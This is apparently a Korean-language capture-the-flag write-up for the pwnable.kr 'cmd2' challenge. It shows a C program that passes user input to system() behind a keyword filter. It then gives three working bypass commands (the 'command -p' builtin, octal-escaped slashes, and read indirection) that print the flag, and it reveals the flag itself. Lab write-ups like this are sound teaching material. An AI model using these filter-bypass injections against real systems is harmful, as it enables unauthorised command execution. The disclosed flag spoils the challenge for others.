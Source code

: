 # 문제
Daddy bought me a system command shell.
but he put some filters to prevent me from playing with it without his permission...
but I wanna play anytime I want!

ssh cmd2@pwnable.kr -p2222 (pw:flag of cmd1)

---
# 개요
```
cmd2@ubuntu:~$ ls
cmd2  cmd2.c  flag
cmd2@ubuntu:~$ cat cmd2.c
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
	int r=0;
	r += strstr(cmd, "=")!=0;
	r += strstr(cmd, "PATH")!=0;
	r += strstr(cmd, "export")!=0;
	r += strstr(cmd, "/")!=0;
	r += strstr(cmd, "`")!=0;
	r += strstr(cmd, "flag")!=0;
	return r;
}

extern char** environ;
void delete_env(){
	char** p;
	for(p=environ; *p; p++)	memset(*p, 0, strlen(*p));
}

int main(int argc, char* argv[], char** envp){
	delete_env();
	putenv("PATH=/no_command_execution_until_you_become_a_hacker");
	if(filter(argv[1])) return 0;
	printf("%s\n", argv[1]);
	system( argv[1] );
	return 0;
}
```
---
# 분석
기존의 cmd1에서 사용했던 방법이 전부 통하지 않는 것을 알 수 있습니다. 하지만 와일드 카드는 이용할 수 있는 것을 알 수 있습니다. system() 함수를 사용하므로 명령을 실행할때 sh를 사용할 것입니다. man page를 읽으며 도움이 될만한 지식을 찾던 중 다음과 같은 글을 발견했습니다.
```
command [-pVv] command [arg ...]
 Run command with args suppressing the normal shell function
 lookup. Only builtin commands or commands found in the PATH are
 executed. If the -p option is given, the search for command is
 performed using a default value for PATH that is guaranteed to
 find all of the standard utilities. If either the -V or -v
 option is supplied, a description of command is printed. The -v
 option causes a single word indicating the command or file name
 used to invoke command to be displayed; the -V option produces a
 more verbose description. If the -V or -v option is supplied,
 the exit status is 0 if command was found, and 1 if not. If
 neither option is supplied and an error occurred or command
 cannot be found, the exit status is 127. Otherwise, the exit
 status of the command builtin is the exit status of command.
```
이를 바탕으로 -p 옵션과 command를 사용하여 다음과 같이 exploit code 구현이 가능합니다.
```
cmd2@ubuntu:~$ ./cmd2 "command -p cat fla*"
command -p cat fla*
FuN_w1th_5h3ll_v4riabl3s_haha
```
다른 풀이 방법을 검색한 결과 8진수를 이용하여 슬래시(/)를 우회하는 방법이 존재했습니다.
```
cmd2@ubuntu:~$ ./cmd2 '$(echo "\57")bin$(echo "\57")cat fla*'
$(echo "\57")bin$(echo "\57")cat fla*
FuN_w1th_5h3ll_v4riabl3s_haha
```
또한 read를 이용하는 방법도 있습니다.
```
cmd2@ubuntu:~$ ./cmd2 "read deadbeef;\$deadbeef"
read deadbeef;$deadbeef
/bin/cat flag
FuN_w1th_5h3ll_v4riabl3s_haha
```
